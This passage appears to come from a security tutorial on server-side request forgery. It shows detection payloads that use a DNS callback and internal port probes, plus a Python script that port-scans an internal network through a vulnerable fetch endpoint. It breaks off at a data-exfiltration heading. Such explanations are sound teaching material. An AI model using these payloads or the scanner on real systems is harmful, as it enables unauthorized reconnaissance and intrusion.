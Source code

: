 2. **DNS-based detection**:

```
# Generate a unique subdomain for each test
https://vulnerable-app.com/fetch?url=http://unique-id.burpcollaborator.net
```

Then check DNS logs for incoming queries to verify the SSRF.

3. **Error-based inference**:

Test invalid ports or services and observe different error messages:

```
https://vulnerable-app.com/fetch?url=http://internal-service:22/
https://vulnerable-app.com/fetch?url=http://internal-service:3306/
```

If error messages differ between valid and invalid services, you can map the internal network.

## Impact of SSRF Vulnerabilities

### Internal Network Mapping

SSRF can be used to perform port scanning and service discovery:

```python
import requests
import concurrent.futures

def check_port(port):
    try:
        response = requests.get(
            f"https://vulnerable-app.com/fetch",
            params={"url": f"http://internal-network:{port}/"},
            timeout=1
        )
        # Different status codes or response times can indicate open ports
        return port, response.status_code, len(response.text)
    except requests.exceptions.RequestException:
        return port, "error", 0

# Scan common ports
ports = [21, 22, 23, 25, 80, 443, 445, 3306, 3389, 5432, 6379, 8080, 8443, 9200]

with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    results = list(executor.map(check_port, ports))

for port, status, length in results:
    print(f"Port {port}: Status {status}, Response length {length}")
```

### Data Exfiltration

SSRF can be used to extract sensitive information:
